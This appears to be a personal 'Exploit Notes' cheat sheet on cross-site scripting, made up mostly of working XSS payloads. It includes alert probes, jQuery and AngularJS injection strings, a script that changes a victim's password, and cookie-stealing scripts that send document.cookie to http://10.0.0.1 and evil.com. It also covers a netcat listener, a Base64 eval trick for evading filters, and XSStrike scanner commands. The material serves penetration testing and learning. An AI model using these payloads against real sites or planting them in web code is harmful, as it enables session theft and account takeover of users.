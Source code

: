 ```yaml
---
title: CROSS SITE SCRIPTING (XSS)
date: 2023-05-05 01:35:40 +/-TTTT
categories: [learning, web]
tags: [learning]     # TAG names should always be lowercase
---
```

XSS enables attackers to injection client-side scripts into web applications.

# Payloads
We can insert them into URL params, POST params or HTTP headers.
```html
<script>alert(1)</script>
"><script>alert(1)</script>
<script>alert(1)</script>
"><script>alert(1)</script>
'></script><script>alert(1)</script>
';alert(1);'

" src=1 onerror=alert(1)>
<><img src=1 onerror=alert(1)>
"><img src=1 onerror=alert(1)>
"></span><img src=1 onerror=alert(1)>
"><svg onload=alert(1)>

javascript:alert(1)
\"-alert(1)//

%3Cscript%3Ealert%281%29%3C%2Fscript%3E

<a onmouseover=alert(1)>click</a>
" onmouseleave='alert(1)'">

<img src="jav ascript:alert(1)">
<img src="jav&#x09;ascript:alert(1)">
<img src="jav&#x0A;ascript:alert(1)">

</textarea><script>alert(1)</script>

<script>fetch('/profile?new_password=password');</script>

/?q=&subparam=--><script>alert(1)</script>
/index.php#value='><script>alert(1)</script>
```
# JQuery
```html
https://vulnerable.com/#<img src=1 onerror=alert(1)>
<iframe src="https://vulnerable.com/#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```
# AngularJS
If you find "<html ng-app>" or "<div ng-app>" in the HTML source code, you may be able to abuse it by XSS.
```js
https://vulnerable.com/?search={{$on.constructor('alert(1)')()}}
```
# Cookie Stealing
Create the following payload for stealing Cookie and inject into target web page.
```html
<!-- GET request -->
<script>fetch("http://10.0.0.1/?"+btoa(document.cookie));</script>

<!-- POST request -->
<script>
    fetch("http://10.0.0.1/", {
        method: 'POST',
        mode: 'no-cors',
        body: document.cookie
    });
</script>
```
Start web server or listener in local machine.
```
sudo python3 -m http.server 80
# or
sudo nc -lvp 80
```
# Filter Evasion
Website may sanitize inputs to prevent from malicious code. However, we might be able to circumvent by modifying our code.
For example, change JavaScript code to Base64 string.
```js
fetch("http://evil.com/"+document.cookie);
# Base64: ZmV0Y2goImh0dHA6Ly9ldmlsLmNvbS8iICsgZG9jdW1lbnQuY29va2llKTs=
```
Insert the base64 string into the “eval” function as below.
```
# '(' => '\x28'
# ')' => '\x29'
<img src="x" onerror=eval.call`${"eval\x28atob`ZmV...2EoZCkpKQo=`\x29"}`
```
# Automation
* XSStrike is a XSS scanner : https://github.com/s0md3v/XSStrike

```js
# GET request
python xsstrike.py -u http://vulnerable.com/?param=test
# POST reqeust
python xsstrike.py -u http://vulnerable.com/post --data "username=test&email=test&comment=test"
# data as JSON
python xsstrike.py -u http://vulnerable.com/comment --data '{"comment": "test"}' --json
```

# Disclaimer
```
Exploit Notes are only for educational purpose or penetration testing, not attacking servers that you're not authorized. This site will not take any responsibility even if you attack the server illegally or cause damage unintentionally. Please use the contents in this site at your own risk.
The contents of this site are not original, but based on the information on the internet, the author actually tried and functioned. Although the author strives to post the latest information on the content of this site as much as possible, there is no guarantee that it will always be new.
```